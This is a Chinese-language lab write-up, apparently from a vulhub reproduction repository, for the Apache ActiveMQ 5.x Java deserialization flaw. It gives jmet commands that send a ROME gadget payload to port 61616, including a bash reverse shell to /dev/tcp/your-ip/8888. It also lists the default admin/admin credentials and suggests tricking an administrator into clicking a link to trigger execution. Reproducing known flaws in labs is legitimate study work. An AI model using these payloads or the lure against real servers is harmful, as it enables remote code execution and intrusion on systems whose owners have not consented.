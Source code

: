 # ActiveMQ反序列化漏洞

###### by ADummy

### 0x00利用路线

​			构造（可以使用ysoserial）可执行命令的序列化对象--->发送给目标61616端口--->访问web管理页面，读取消息，触发漏洞--->代码执行

### 0x01漏洞介绍

​			Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码

### 0x02漏洞复现

**下载：jmet-0.1.0-all.jar,在同目录下新建external文件夹**

**5.11版本的ActiveMQ应该使用jdk1.7，否则jmet发送消息会失败**

**payload:**

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 
ip 61616
```

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -i >& /dev/tcp/your-ip/8888>&1" -Yp ROME  ip   61616
```

**查看消息界面http://your-ip:8161/admin/browse.jsp?JMSDestination=Event**

**登录名/密码  admin/admin**

​			**默认页面**

![ActiveMQ反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ反序列化漏洞_1.jpg)

​			**使用jmet发送消息**

![ActiveMQ反序列化漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ反序列化漏洞_2.jpg)

​				

​			**查看消息页面**

![ActiveMQ反序列化漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ反序列化漏洞_3.jpg)



​			**发现 touch  /tmp/success被执行**

![ActiveMQ反序列化漏洞_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ反序列化漏洞_4.jpg)



​			**执行反弹shellpayload**

![ActiveMQ反序列化漏洞_5](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ反序列化漏洞_5.jpg)



​			**攻击机接到shell**

![ActiveMQ反序列化漏洞_6](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ActiveMQ反序列化漏洞_6.jpg)

值得注意的是，通过Web管理页面访问消息并触发漏洞需要管理员特权。在没有密码的情况下，我们可以诱使管理员访问我们的链接以进行触发，或者伪装成其他服务的合法消息在触发时需要等待客户端访问



### 0x03参考资料

jmet:https://github.com/matthiaskaiser/jmet/releases

jdk1.7:https://www.oracle.com/java/technologies/javase/javase7-archive-downloads.html

kali安装jdk1.7https://blog.csdn.net/qq_42954408/article/details/99079519